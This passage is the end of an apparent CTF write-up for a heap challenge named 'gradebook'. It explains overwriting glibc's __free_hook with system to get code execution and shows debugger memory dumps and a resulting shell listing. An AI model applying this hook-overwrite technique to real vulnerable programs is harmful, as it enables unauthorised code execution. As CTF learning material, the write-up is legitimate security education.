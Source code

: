 If we set the hook to any value other than 0, we get instant RCE. As a bonus the chunk passed to free is also the first argument, meanng if you control the data in the chunk, you may pass anything you want as the first argument.

All my exploit does is set the new name ptr as `&__free_hook`, and overwriting it with `system`. Prior to freeing the chunks to trigger `system`, you must have a chunk which will be freed which contains your command, so you can execute `system(your_cmd)`.

After overwriting name:

```
0x0000556f775ac7d0│+0x0000: 0x0000000000000000 // id
                              [length] [grade]
0x0000556f775ac7d8│+0x0008: 0x00000100ffffffff
0x0000556f775ac7e0│+0x0010: 0x00007f15844d1b28  →  0x0000000000000000 // name ptr (__free_hook)
```

And after the new name, `system` is written

```
0x0000556f775ac7d0│+0x0000: 0x0000000000000000
0x0000556f775ac7d8│+0x0008: 0x00000100ffffffff
0x0000556f775ac7e0│+0x0010: 0x00007f15844d1b28  →  0x00007f1584338410  →  <system+0> endbr64 
```

And finally, after we free:

```
$ ls -la
[DEBUG] Sent 0x7 bytes:
    b'ls -la\n'
[DEBUG] Received 0x177 bytes:
    b'total 2024\n'
    b'drwxr-xr-x  2 root root    4096 Nov 14 17:00 .\n'
    b'drwxr-xr-x 15 root root    4096 Nov 13 22:02 ..\n'
    b'-rw-r--r--  1 root root    2380 Nov 14 17:00 exp2.py\n'
    b'-rw-r--r--  1 root root    2367 Nov 12 20:35 exp.py\n'
    b'-rwxr-xr-x  1 root root   17608 Nov 11 21:34 gradebook\n'
    b'-rwxr-xr-x  1 root root 2029224 Nov 11 21:34 libc.so.6\n'
    b'-rw-r--r--  1 root root     283 Nov 12 22:34 notes.md\n'
total 2024
drwxr-xr-x  2 root root    4096 Nov 14 17:00 .
drwxr-xr-x 15 root root    4096 Nov 13 22:02 ..
-rw-r--r--  1 root root    2380 Nov 14 17:00 exp2.py
-rw-r--r--  1 root root    2367 Nov 12 20:35 exp.py
-rwxr-xr-x  1 root root   17608 Nov 11 21:34 gradebook
-rwxr-xr-x  1 root root 2029224 Nov 11 21:34 libc.so.6
-rw-r--r--  1 root root     283 Nov 12 22:34 notes.md
$  
```

# Conclusion

This was a nice challenge - i've never seen something as subtle as a format string mismatch in a ctf challenge before - it was only one character away from being correct.

Actually all of the challenges I tried were pretty fun - well except the math challenges, I dont wanna talk about that lmao.

See you in 3 months time when I make another one of these, or it might be before. Idk.

Peace out.
